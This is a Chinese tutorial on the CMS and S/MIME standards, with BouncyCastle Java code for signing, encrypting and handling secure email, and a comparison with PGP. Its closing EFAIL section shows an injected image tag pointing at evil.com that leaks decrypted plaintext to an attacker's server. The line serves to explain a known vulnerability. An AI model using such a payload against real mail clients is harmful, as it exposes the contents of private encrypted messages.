




# CMS 与 S/MIME

**本文你会学到**：

- 为什么需要一个标准化的消息加密格式，而不是自己拼凑对称加密 + 数字签名
- CMS（Cryptographic Message Syntax）如何用统一的 ASN.1 结构封装签名和加密
- CMS 的两种签名模式（Detached vs Enveloping）分别适用于什么场景
- CMS 的两种加密方式（密钥传输 vs 密码加密）各自的工作原理
- S/MIME 如何将 CMS 嵌入邮件系统，实现签名和加密邮件
- CMS、S/MIME、PGP 三者的定位差异与选型建议
- Sign-then-Encrypt 与 Encrypt-then-Sign 两种顺序的安全属性差异，以及 S/MIME 为何选择前者
- 实现中的常见陷阱：Enveloping 签名验证、S/MIME 规范化、BouncyCastle 依赖

## 🤔 为什么需要 CMS？

假设你要给合作伙伴发送一份合同，要求同时满足三个安全属性：**机密性**（只有对方能看）、**完整性**（不能被篡改）、**认证**（证明是你发的）。你可能会想："我先用 AES 加密，再用 RSA 签名，把密文和签名拼在一起发送不就行了？"

想法是对的，但问题在于"拼在一起"这个环节。如果你用 Java 的 `Cipher` 加密得到 `byte[]`，再用 `Signature` 签名得到另一个 `byte[]`，接收方怎么知道哪段是密文、哪段是签名、用的什么算法、签名者的证书在哪里？你需要自己设计一套格式规范，而你自己设计的格式很可能和其他系统不兼容。

**CMS（Cryptographic Message Syntax）**就是为了解决这个问题而生的。它定义了一套标准的 ASN.1 数据结构，把签名、加密、证书、算法信息等全部规范化地打包在一起，任何遵循 CMS 标准的系统都能正确解析。

💡 把 CMS 想象成"密码学领域的 ZIP 格式"——它不是一种新的加密算法，而是一个**封装标准**，规定了如何把各种密码学操作的结果组织成一个可互操作的数据包。

### 为什么标准化格式本身就是一种安全保障

CMS 的 ASN.1 结构化封装不仅解决了互操作性问题，还提供了几个重要的安全优势：

**1. 消除解析歧义**

当你自己"拼凑"加密和签名结果时，接收方需要自行判断数据的边界和格式。这种解析逻辑往往不严谨，成为攻击的入口。CMS 用 ASN.1 的 TLV（Tag-Length-Value）结构消除了边界歧义——每个字段都有明确的类型标识和长度，解析器不需要猜测"下一个字节是密文还是签名"。

**2. 算法信息绑定**

CMS 的 `SignerInfo` 中显式记录了签名算法（如 `SHA256WithRSA`）和摘要算法。验证方不需要猜测签名用了什么算法——如果攻击者替换了算法标识，签名验证会因为 DER 编码不一致而失败（因为签名覆盖了整个 SignerInfo 结构）。

**3. 形式化安全分析的基础**

因为 CMS 使用标准化的 ASN.1/DER 编码，安全研究者可以对 CMS 协议进行形式化安全分析。如果 CMS 是一个"自由格式"的协议，每次实现都可能引入不同的解析行为，形式化分析就无从谈起。CMS 的 DER 确定性编码使得安全证明可以基于精确的字节级定义，而不是模糊的自然语言描述。

CMS 最初定义在 PKCS#7 标准中（所以经常被称为 PKCS#7），后来由 IETF 接手维护，最新版本在 RFC 5652 中描述。它的核心结构是 `ContentInfo`——一个"信封"，里面装的内容类型由 OID（Object Identifier）标识：



## 📨 CMS 消息类型

CMS 定义了多种消息类型，最常用的有两个：`SignedData`（签名）和 `EnvelopedData`（加密）。理解这两个类型，就能覆盖绝大多数实际场景。

### CMS 数据结构解析：SignedData vs EnvelopedData

`SignedData` 和 `EnvelopedData` 名字相近，却解决完全不同的问题——先弄清本质区别：

- **`SignedData`**：解决"**这条消息是谁发的**"的问题，提供**认证 + 完整性**，内容本身**不加密**
- **`EnvelopedData`**：解决"**只有你能看到**"的问题，提供**机密性**，但**不证明来源**



两者的核心差异对比：

| 维度 | `SignedData` | `EnvelopedData` |
|------|-------------|----------------|
| **安全目标** | 认证 + 完整性 | 机密性 |
| **内容是否加密** | ❌ 明文可见 | ✅ 对称加密 |
| **能验证发送者吗** | ✅ 包含签名者证书 | ❌ 无签名者信息 |
| **支持多方** | 支持多签名者 | ✅ 支持多 `RecipientInfo` |
| **Detached 模式** | ✅ 支持（签名与数据分离） | ❌ 不适用 |

> ⚠️ 单独使用 `EnvelopedData` 加密**不提供发送者认证**——收件人只知道"有人用我的公钥加密了这条消息"，但不知道是谁。需要与 `SignedData` 组合（Sign-then-Encrypt）才能同时满足认证和机密性，详见「先签名还是先加密？」。

### SignedData：签名消息

当你需要证明消息来自你且未被篡改时，使用 `SignedData`。它的 ASN.1 结构包含版本号、摘要算法列表、签名者信息（`SignerInfo`）、可选的证书链等。

`SignedData` 有两种模式：

| 模式 | 说明 | 适用场景 |
|------|------|---------|
| **Detached（分离）** | 签名和原始数据分开存储 | S/MIME 邮件、大文件签名 |
| **Enveloping（封装）** | 签名和原始数据打包在一起 | 自包含的签名文件 |

⚠️ `SignedData` 并不要求一定包含原始数据。当它不包含时就是 Detached 模式——这也是为什么它叫"Signed Data"而不叫"Signed Encapsulated Data"。

### EnvelopedData：加密消息

当你需要保护消息的机密性时，使用 `EnvelopedData`。它的工作方式是：生成一个随机对称密钥加密数据，再用非对称算法（或密码）包装这个对称密钥。`EnvelopedData` 结构中包含多个收件人信息（`RecipientInfo`），每个收件人用自己的方式解出对称密钥。

CMS 定义了四种收件人类型：

| 类型 | 机制 | 适用场景 |
|------|------|---------|
| `ktri`（Key Transport） | 用 RSA 等公钥加密对称密钥 | 最常用，一对一加密 |
| `kari`（Key Agreement） | 用 ECDH 等协商出共享密钥 | 多方密钥协商 |
| `kekri`（KEK） | 用对称密钥包装对称密钥 | 已有预共享密钥的场景 |
| `pwri`（Password） | 用密码 + PBKDF2 派生密钥 | 人工交换密钥的场景 |

## ✍️ CMS 签名实战

Java 标准库不直接支持 CMS，需要使用 BouncyCastle 的 `org.bouncycastle.cms` 包。下面通过具体代码演示两种签名模式。

### Detached 签名

当你签一个大文件时，不希望把文件内容复制一份塞进签名里——文件可能有几个 GB。Detached 签名把数据和签名分开存储，接收方需要同时持有两者才能验证。

``` java title="创建 CMS Detached 签名"
// 创建签名生成器
CMSSignedDataGenerator signedDataGenerator = new CMSSignedDataGenerator();
signedDataGenerator.addSignerInfoGenerator(
    new JcaSimpleSignerInfoGeneratorBuilder()
        .setProvider("BC")
        .build("SHA256WithRSA", keyPair.getPrivate(), cert)  // 签名算法 + 私钥 + 证书
);

// 生成 Detached 签名（detached = true，签名不包含原始数据）
CMSSignedData signedData = signedDataGenerator.generate(
    new CMSProcessableByteArray(originalData),
    true  // ✅ detached 模式
);
byte[] signatureBytes = signedData.getEncoded(); // 签名数据，与 originalData 分开存储
```

验证 Detached 签名时，需要把原始数据和签名重新组合：

``` java title="验证 CMS Detached 签名"
// 将原始数据和签名重新组合
CMSSignedData signedDataToVerify = new CMSSignedData(
    new CMSProcessableByteArray(originalData), signatureBytes
);

// 构建签名验证器并验证
SignerInformationVerifier verifier = new JcaSimpleSignerInfoVerifierBuilder()
    .setProvider("BC")
    .build(cert.getPublicKey());

SignerInformation signerInfo = signedDataToVerify.getSignerInfos().getSigners().iterator().next();
assertTrue(signerInfo.verify(verifier)); // ✅ 验证通过
```

### Enveloping 签名

当你希望签名是自包含的（比如一个签名后的配置文件），使用 Enveloping 模式。签名中直接包含原始数据，验证时不需要额外的数据文件。

``` java title="创建 CMS Enveloping 签名"
CMSSignedDataGenerator signedDataGenerator = new CMSSignedDataGenerator();
signedDataGenerator.addSignerInfoGenerator(
    new JcaSimpleSignerInfoGeneratorBuilder()
        .setProvider("BC")
        .build("SHA256WithRSA", keyPair.getPrivate(), cert)
);

// 生成 Enveloping 签名（detached = false，签名中包含原始数据）
CMSSignedData signedData = signedDataGenerator.generate(
    new CMSProcessableByteArray(originalData),
    false  // ✅ enveloping 模式
);
byte[] signedContent = signedData.getEncoded(); // 签名 + 数据打包在一起
```

验证并提取数据：

``` java title="验证 CMS Enveloping 签名并提取数据"
// 注意：需要同时传入 signedContent 和 getSignedContent() 才能保留嵌入数据
CMSSignedData signedDataToVerify = new CMSSignedData(
    signedData.getSignedContent(), signedContent
);

// 从嵌入数据中提取原始内容
byte[] extractedData = (byte[]) signedDataToVerify.getSignedContent().getContent();
assertArrayEquals(originalData, extractedData); // ✅ 数据一致

// 验证签名
SignerInformationVerifier verifier = new JcaSimpleSignerInfoVerifierBuilder()
    .setProvider("BC")
    .build(cert.getPublicKey());
assertTrue(signerInfo.verify(verifier)); // ✅ 签名验证通过
```

⚠️ **Enveloping 签名的验证陷阱**：直接从 `byte[]` 构造 `CMSSignedData` 时不保留嵌入内容。必须同时传入 `signedData.getSignedContent()` 才能提取原始数据。

## 🔐 CMS 加密实战

### 密钥传输加密

密钥传输（Key Transport）是最常用的 CMS 加密方式。它的工作原理是：

1. 生成一个随机的 AES 对称密钥
2. 用 AES 密钥加密原始数据
3. 用收件人的 RSA 公钥加密这个 AES 密钥
4. 把加密后的 AES 密钥和加密后的数据打包在一起

收件人用自己的 RSA 私钥解出 AES 密钥，再用 AES 密钥解密数据。

💡 这就像"你把一把钥匙锁在保险箱里，保险箱只能用收件人的钥匙打开。收件人打开保险箱拿到里面的钥匙，再用这把钥匙打开真正的宝箱"。

``` java title="CMS 密钥传输加密"
CMSEnvelopedDataGenerator envelopedGenerator = new CMSEnvelopedDataGenerator();

// 用收件人的公钥证书包装对称密钥
envelopedGenerator.addRecipientInfoGenerator(
    new JceKeyTransRecipientInfoGenerator(recipientCert)
        .setProvider("BC")
);

// 用 AES-256-CBC 加密内容（对称密钥自动生成）
CMSEnvelopedData envelopedData = envelopedGenerator.generate(
    new CMSProcessableByteArray(originalData),
    new JceCMSContentEncryptorBuilder(CMSAlgorithm.AES256_CBC)
        .setProvider("BC")
        .build()
);
byte[] encryptedBytes = envelopedData.getEncoded();
```

解密：

``` java title="CMS 密钥传输解密"
CMSEnvelopedData envelopedDataToDecrypt = new CMSEnvelopedData(encryptedBytes);
RecipientInformationStore recipientInfoStore = envelopedDataToDecrypt.getRecipientInfos();

// 用收件人私钥解密
RecipientInformation recipientInfo = recipientInfoStore.getRecipients().iterator().next();
byte[] decryptedData = recipientInfo.getContent(
    new JceKeyTransEnvelopedRecipient(recipientKeyPair.getPrivate())
        .setProvider("BC")
);
assertArrayEquals(originalData, decryptedData); // ✅ 解密成功
```

### 密码加密

当你没有收件人的公钥证书时，可以使用密码加密（Password-based Encryption）。CMS 通过 PBKDF2 从密码派生出密钥，再用这个密钥加密对称密钥。

``` java title="CMS 密码加密"
CMSEnvelopedDataGenerator envelopedGenerator = new CMSEnvelopedDataGenerator();

// 用密码派生密钥（PBKDF2）
JcePasswordRecipientInfoGenerator passwordRecipientInfoGenerator =
    new JcePasswordRecipientInfoGenerator(
        CMSAlgorithm.AES256_CBC,  // KEK 算法 OID，决定派生密钥长度
        password
    ).setProvider("BC");
envelopedGenerator.addRecipientInfoGenerator(passwordRecipientInfoGenerator);

// 用 AES-256-CBC 加密内容
CMSEnvelopedData envelopedData = envelopedGenerator.generate(
    new CMSProcessableByteArray(originalData),
    new JceCMSContentEncryptorBuilder(CMSAlgorithm.AES256_CBC)
        .setProvider("BC")
        .build()
);
```

解密时只需提供相同的密码：

``` java title="CMS 密码解密"
CMSEnvelopedData envelopedDataToDecrypt = new CMSEnvelopedData(encryptedBytes);
RecipientInformation recipientInfo = envelopedDataToDecrypt.getRecipientInfos()
    .getRecipients().iterator().next();

byte[] decryptedData = recipientInfo.getContent(
    new JcePasswordEnvelopedRecipient(password)
        .setProvider("BC")
);
```

⚠️ 密码加密的密码复杂度非常重要。建议至少 14 个字符（约 112 bit 熵），不要使用简单密码。

## 📧 S/MIME——将 CMS 用于邮件

当你理解了 CMS 之后，S/MIME 就很简单了——它只是把 CMS 消息嵌入到 MIME 邮件格式中。

S/MIME（Secure/MIME）定义在 RFC 5751 中，是电子邮件安全的事实标准。你可能已经在邮件客户端中见过 S/MIME 签名邮件——它们通常显示一个"已签名"或"已加密"的标识。

BouncyCastle 提供两套 S/MIME API：基于 JavaMail 的（在 `bcmail-*` JAR 中）和直接解析 MIME 的 PKIX API。下面使用 JavaMail 版本演示，因为它更直观。

### CMS 与 S/MIME 的诞生背景：邮件为什么不安全

在 `S/MIME` 出现之前，一封普通电子邮件在网络上的传输就像一张明信片——每个中间节点（MTA，邮件传输代理）都能读到内容。`SMTP`（Simple Mail Transfer Protocol）设计于 1982 年（RFC 821），那个年代的互联网是一个小圈子，**安全性从未被纳入设计范围**。

这带来了三个根本性问题：

- **明文传输**：邮件以 ASCII 明文在 SMTP 服务器之间跳转，任何中间节点都可以读取或修改
- **无发件人认证**：SMTP 协议不验证 `From:` 头，任何人都可以声称自己是任何人（伪造发件人）
- **无完整性保护**：邮件在传输途中可被静默篡改，收件人无从察觉

> 💡 类比：`SMTP` 就像寄明信片，任何一个邮递员都能读内容、涂改内容、甚至换一张假明信片。`S/MIME` 则像把信放进密封信封（加密），然后在封口盖上你的专属印章（签名）——对方收到后能确认封口没被破坏（完整性），印章是你的（认证），且内容保密（机密性）。

1995 年，RSA Security 在 `PKCS#7` 的基础上推出了 `S/MIME`，随后由 IETF 接手，历经 RFC 2311、RFC 3851，直到当前的 RFC 5751。`S/MIME` 的核心思路是：**不修改 SMTP 协议本身**，而是在邮件内容层（MIME）做密码学处理，获得机密性、完整性和认证三重保护。

`CMS`（Cryptographic Message Syntax，RFC 5652）是 `S/MIME` 的底层格式，负责标准化的 ASN.1 数据封装。`S/MIME` 只是 `CMS` 在邮件（MIME）场景下的具体应用，就像「对称加密」中的 AES 是算法、AES-GCM 是具体模式一样。

### 签名邮件

S/MIME 签名邮件使用 `multipart/signed` MIME 类型，由两部分组成：第一部分是原始邮件内容，第二部分是 Detached 签名。这种格式的好处是**即使收件人的邮件客户端不支持 S/MIME，也能正常阅读邮件内容**。

``` java title="创建 S/MIME 签名邮件"
// 创建邮件正文
MimeBodyPart bodyPart = new MimeBodyPart();
bodyPart.setText("这是一封通过 S/MIME 签名的测试邮件。");

// 创建 S/MIME 签名生成器
SMIMESignedGenerator smimeSignedGenerator = new SMIMESignedGenerator();
smimeSignedGenerator.addSignerInfoGenerator(
    new JcaSimpleSignerInfoGeneratorBuilder()
        .setProvider("BC")
        .build("SHA256WithRSA", signerKeyPair.getPrivate(), signerCert)
);
smimeSignedGenerator.addCertificates(new JcaCertStore(List.of(signerCert))); // 附带证书

// 生成 multipart/signed 格式
MimeMultipart signedMultipart = smimeSignedGenerator.generate(bodyPart);
```

验证签名邮件时，从 `multipart/signed` 中解析出签名并验证：

``` java title="验证 S/MIME 签名邮件"
SMIMESigned signed = new SMIMESigned((MimeMultipart) signedMessage.getContent());

// 验证签名
SignerInformationVerifier verifier = new JcaSimpleSignerInfoVerifierBuilder()
    .setProvider("BC")
    .build(signerCert.getPublicKey());
assertTrue(signer.getSignerInfos().getSigners().iterator().next().verify(verifier));

// 提取原始邮件内容
String extractedText = (String) signed.getContent().getContent();
```

### 加密邮件

S/MIME 加密邮件使用 `application/pkcs7-mime` MIME 类型，邮件正文完全被加密，只有持有正确私钥的收件人才能解密。

``` java title="创建 S/MIME 加密邮件"
// 创建原始邮件正文
MimeBodyPart bodyPart = new MimeBodyPart();
bodyPart.setText("这是一封通过 S/MIME 加密的机密邮件。");

// 创建 S/MIME 加密生成器
SMIMEEnvelopedGenerator smimeEnvelopedGenerator = new SMIMEEnvelopedGenerator();
smimeEnvelopedGenerator.addRecipientInfoGenerator(
    new JceKeyTransRecipientInfoGenerator(recipientCert)
        .setProvider("BC")
);

// 加密邮件正文（AES-256-CBC）
MimeBodyPart encryptedPart = smimeEnvelopedGenerator.generate(
    bodyPart,
    new JceCMSContentEncryptorBuilder(CMSAlgorithm.AES256_CBC)
        .setProvider("BC")
        .build()
);
```

解密：

``` java title="解密 S/MIME 加密邮件"
SMIMEEnveloped enveloped = new SMIMEEnveloped(encryptedPart);
RecipientInformation recipientInfo = enveloped.getRecipientInfos()
    .getRecipients().iterator().next();

MimeBodyPart decryptedPart = SMIMEUtil.toMimeBodyPart(
    recipientInfo.getContent(
        new JceKeyTransEnvelopedRecipient(recipientKeyPair.getPrivate())
            .setProvider("BC")
    )
);
String decryptedText = (String) decryptedPart.getContent();
```

### S/MIME 实战：Java BC 发送加密签名邮件

真实场景中，一封安全邮件通常需要**同时签名和加密**（Sign-then-Encrypt）：发件人用自己的私钥签名，再用收件人的公钥加密。下面演示完整的发送和接收流程。

``` java title="S/MIME 签名 + 加密邮件（完整发送流程）"
// ① 创建邮件原始正文（必须使用 CRLF 行结尾，否则规范化后签名失效）
MimeBodyPart bodyPart = new MimeBodyPart();
bodyPart.setText("这是一封同时签名并加密的 S/MIME 邮件。\r\n", "UTF-8");

// ② 先签名：生成 multipart/signed 结构
SMIMESignedGenerator signer = new SMIMESignedGenerator();
signer.addSignerInfoGenerator(
    new JcaSimpleSignerInfoGeneratorBuilder()
        .setProvider("BC")
        .build("SHA256WithRSA", senderPrivateKey, senderCert)  // 发件人私钥 + 证书
);
signer.addCertificates(new JcaCertStore(List.of(senderCert)));  // 随签名附带证书
MimeMultipart signedMultipart = signer.generate(bodyPart);

// 把 multipart/signed 包成 MimeBodyPart，作为加密的输入
MimeBodyPart signedBodyPart = new MimeBodyPart();
signedBodyPart.setContent(signedMultipart);

// ③ 后加密：用收件人公钥加密整个已签名 MIME 部分
SMIMEEnvelopedGenerator encryptor = new SMIMEEnvelopedGenerator();
encryptor.addRecipientInfoGenerator(
    new JceKeyTransRecipientInfoGenerator(recipientCert)  // 收件人公钥证书
        .setProvider("BC")
);
MimeBodyPart encryptedPart = encryptor.generate(
    signedBodyPart,
    new JceCMSContentEncryptorBuilder(CMSAlgorithm.AES256_CBC)
        .setProvider("BC")
        .build()
);

// ④ 组装 MimeMessage（可直接通过 JavaMail 的 Transport.send() 发出）
Session session = Session.getInstance(new Properties());
MimeMessage mimeMessage = new MimeMessage(session);
mimeMessage.setFrom(new InternetAddress("sender@example.com"));
mimeMessage.addRecipient(Message.RecipientType.TO,
    new InternetAddress("recipient@example.com"));
mimeMessage.setSubject("S/MIME 签名加密邮件");
mimeMessage.setContent(encryptedPart.getContent(), encryptedPart.getContentType());
mimeMessage.saveChanges();
// Transport.send(mimeMessage); // 取消注释通过 SMTP 实际发送
```

收件人解密并验签（**先解密后验签**，与发送方顺序相反）：

``` java title="S/MIME 邮件解密 + 验签（完整接收流程）"
// ① 解密：从 application/pkcs7-mime 中还原明文 MIME 部分
SMIMEEnveloped enveloped = new SMIMEEnveloped((MimeBodyPart) receivedMessage.getContent());
RecipientInformation recipientInfo = enveloped.getRecipientInfos()
    .getRecipients().iterator().next();
MimeBodyPart decryptedPart = SMIMEUtil.toMimeBodyPart(
    recipientInfo.getContent(
        new JceKeyTransEnvelopedRecipient(recipientPrivateKey).setProvider("BC")
    )
);

// ② 解密后得到 multipart/signed，再验签
SMIMESigned signed = new SMIMESigned((MimeMultipart) decryptedPart.getContent());
SignerInformationVerifier verifier = new JcaSimpleSignerInfoVerifierBuilder()
    .setProvider("BC")
    .build(senderCert.getPublicKey());
SignerInformation signerInfo = signed.getSignerInfos().getSigners().iterator().next();
boolean valid = signerInfo.verify(verifier);  // ✅ true 表示签名有效

// ③ 提取邮件正文
String content = (String) signed.getContent().getContent();
```

> ⚠️ 注意操作顺序：**发送时先签名后加密**，**接收时先解密后验签**。若顺序搞反，会导致验签失败或无法提取原文。签名者的身份（证书）被加密层包裹，只有收件人解密后才能看到，保护了签名者隐私。

## ⚖️ CMS vs S/MIME vs PGP 对比

你可能听说过 PGP（Pretty Good Privacy），它和 S/MIME 都能实现邮件的签名和加密。它们的关系是什么？

| 维度 | CMS / S/MIME | PGP / OpenPGP |
|------|-------------|---------------|
| **标准基础** | IETF RFC 5652 / RFC 5751 | IETF RFC 4880 |
| **数据格式** | ASN.1（DER/BER 编码） | 自定义二进制格式 |
| **信任模型** | 基于 PKI（X.509 证书链 + CA） | 基于 Web of Trust（信任网） |
| **邮件生态** | 企业邮件系统（Outlook、Apple Mail） | 技术社区（Thunderbird、ProtonMail） |
| **适用范围** | 邮件 + 任意数据（PDF 签名、时间戳等） | 最初为邮件设计，后来扩展到通用加密 |
| **Java 库** | BouncyCastle (`bcpkix`, `bcmail`) | BouncyCastle (`bcpg`) |

**选型建议**：

- 企业内部邮件安全 → **S/MIME**（已有 AD/LDAP 证书基础设施）
- 个人隐私通信 → **OpenPGP**（无需 CA，Web of Trust 更灵活）
- 非邮件场景（如 PDF 签名、时间戳协议） → **CMS**（S/MIME 是 CMS 在邮件上的具体应用）

### S/MIME vs PGP：邮件加密的两条路

`S/MIME` 和「OpenPGP」（详见 [OpenPGP](../openpgp/)）代表了邮件加密两种根本不同的哲学，差异不在于加密算法本身，而在于**如何建立对公钥的信任**：



**PKI 信任（S/MIME 的方式）**：

- 信任关系由**受信任的第三方 CA**（证书颁发机构）背书，CA 签发 X.509 证书绑定邮件地址与公钥
- 你只需要信任操作系统内置的根证书，就能验证任何 S/MIME 邮件——无需提前交换密钥
- 缺点：需要向 CA 申请（购买）邮件证书，企业需要部署内部 CA；证书吊销依赖 CRL / OCSP

**Web of Trust（OpenPGP 的方式）**：

- 信任关系由**社区成员互相签名认可**——你信任朋友的密钥，朋友信任的人你也可以选择信任
- 没有中央权威，密钥通过 Keyserver（如 `keys.openpgp.org`）分发
- 优点：去中心化，无需 CA，适合个人和开源社区；缺点：信任路径不透明，密钥吊销困难

| 场景 | 推荐方案 | 原因 |
|------|---------|------|
| 企业内部邮件（有 AD/Exchange） | `S/MIME` | 与 Outlook/Exchange 原生集成，证书统一管理 |
| 个人隐私通信、开源社区 | `OpenPGP` | 无需 CA，GPG 生态成熟，git commit 签名等广泛使用 |
| 高合规要求（金融、政府） | `S/MIME` | `PKI` 合规性，「证书与 PKI」审计链清晰（详见 [证书与 PKI](../certificates-and-pki/)） |
| 互联网邮件服务（ProtonMail） | `OpenPGP` | 开源、用户可验证端对端加密 |

## 🔄 先签名还是先加密？

当你需要同时签名和加密一条消息时，操作顺序会显著影响安全性。有两种选择：



### 两种顺序的安全属性对比

**先签名后加密（Sign-then-Encrypt, SteE）**：

- 签名覆盖的是**原始明文**，验证者需要先解密再验证签名
- 验证者可以确认：消息来自签名者 + 消息未被加密过程中篡改
- ✅ **提供机密性 + 认证 + 完整性**——三重安全保障

**先加密后签名（Encrypt-then-Sign, EteS）**：

- 签名覆盖的是**密文**，任何人都能验证签名（不需要解密）
- 验证者只能确认：密文来自签名者 + 密文未被篡改
- ⚠️ 验证者**无法确认明文的来源**——因为签名者可能签名的是别人加密的数据

用一个直觉场景来说明差异：

> - **SteE**：你把合同签名后锁进保险箱。收件人打开保险箱，看到你的签名和合同——既确认了你的身份，又确认了内容完整
> - **EteS**：你把合同锁进保险箱后，在保险箱外壳上签名。别人能看到"这个保险箱是你锁的"，但里面的合同可能是任何人放进去的

### 为什么 S/MIME 使用 Sign-then-Encrypt

S/MIME 的标准做法是 **先签名后加密**（RFC 5751 Section 3.5）。当一封邮件既要签名又要加密时，S/MIME 先创建 `multipart/signed`（签名），再将整个 MIME 结构加密为 `application/pkcs7-mime`。

这个选择的安全论证如下：

1. **邮件的三个安全目标都要满足**：机密性（只有收件人能读）、完整性（内容未被篡改）、认证（来自声称的发送者）
2. SteE 满足全部三个目标，EteS 只满足认证和密文完整性
3. EteS 中签名覆盖密文在加密层使用 AEAD（如 AES-GCM，RFC 5084）时确实与加密自带的完整性保证重复；但 CMS 默认使用 AES-CBC（RFC 5652），该模式不提供密文完整性，此时签名覆盖密文反而是唯一的密文完整性来源。不过，无论加密层是否提供完整性，EteS 的核心缺陷始终不变——**签名不覆盖明文，无法为明文提供来源认证**
4. **签名者隐私**：SteE 将签名者的身份信息（证书等）包裹在加密层内，第三方无法看到谁签名了；EteS 中签名以明文形式暴露给所有人，RFC 5751 明确指出这是推荐 SteE 的重要原因之一

### 什么时候用 Encrypt-then-Sign？

EteS 在某些场景下有其独特价值——当**签名需要公开可验证**但消息内容需要保密时：

- 传输加密密钥：密钥本身需要保密（加密），但接收者需要确认密钥确实来自可信的发送者（签名）
- 不需要解密就能验证来源的场景

但一般来说，如果你需要同时签名和加密，**先签名后加密是更安全的选择**。

## 🚨 常见问题与陷阱

### Enveloping 签名验证时提取不到数据

这是最常见的坑。如果你直接从 `byte[]` 构造 `CMSSignedData`，再调用 `getSignedContent().getContent()`，会得到 `null`。正确做法是构造时同时传入 `signedData.getSignedContent()`：

``` java
// ❌ 错误：直接从 byte[] 构造会丢失嵌入数据
CMSSignedData sd = new CMSSignedData(signedContent);

// ✅ 正确：同时传入 signedContent 和嵌入数据
CMSSignedData sd = new CMSSignedData(
    originalSignedData.getSignedContent(), signedContent
);
```

### S/MIME 签名验证失败：规范化问题

S/MIME 要求文本数据的行结尾统一为 `\r\n`（CRLF）。如果你的邮件在传输过程中被某个网关"好心"地把 `\r\n` 改成了 `\n`，签名就会验证失败。排查时注意：

- 创建签名邮件前，确保文本内容使用 CRLF 行尾
- 某些邮件网关会去除行尾空白、替换特殊字符编码，都可能导致签名失效
- AS2 协议使用二进制传输编码，不受此影响

### CMS 不直接支持 JDK，必须依赖 BouncyCastle

Java 标准库的 `java.security` 包提供了底层的签名和加密能力，但不提供 CMS 格式的封装。要处理 `.p7s`（签名文件）、`.p7m`（加密文件）等 CMS 格式，必须引入 BouncyCastle：

``` xml title="Maven 依赖"
<dependency>
    <groupId>org.bouncycastle</groupId>
    <artifactId>bcprov-jdk18on</artifactId>
</dependency>
<dependency>
    <groupId>org.bouncycastle</groupId>
    <artifactId>bcpkix-jdk18on</artifactId>
</dependency>
<!-- S/MIME 的 JavaMail API 还需要 -->
<dependency>
    <groupId>org.bouncycastle</groupId>
    <artifactId>bcmail-jdk18on</artifactId>
</dependency>
```

### 密码加密的密码复杂度

CMS 密码加密使用 PBKDF2 从密码派生密钥。如果密码太简单（比如 "password"），攻击者可以暴力破解。建议：

- 密码长度至少 14 个字符
- 使用随机 Salt（至少 16 字节）
- 迭代次数至少 2048 次（BouncyCastle 默认值通常已足够）

### EFAIL 漏洞：加密邮件怎么也不安全？

2018 年，安全研究者披露了 [EFAIL 漏洞](https://efail.de/)，震惊了邮件安全社区：**已经用 `S/MIME` 或 `OpenPGP` 加密的邮件，在特定条件下可以被解密——而攻击者不需要知道你的私钥**。

**攻击原理（以 S/MIME CBC oracle 为例）**：

`S/MIME` 默认使用 `AES-CBC` 加密。`CBC` 模式不提供密文完整性（不是 AEAD），攻击者可以**篡改密文字节，使解密后的明文产生可预测的变化**（CBC Bit-Flipping）。EFAIL 将这个性质与邮件客户端的"自动加载外部资源"特性组合，形成了泄露攻击：

```mermaid
sequenceDiagram
    participant Attacker as 攻击者
    participant Victim as 受害者邮件客户端
    participant Server as 攻击者服务器

    Attacker->>Attacker: 截获历史加密邮件（密文 C）
    Attacker->>Victim: 转发改造邮件<br/>&lt;img src="https://evil.com/PREFIX + C"&gt;
    Note over Victim: 客户端自动解密 C → 明文 P
    Victim->>Server: GET https://evil.com/PREFIX + P（明文！）
    Server-->>Attacker: 收到完整明文，攻击成功
```

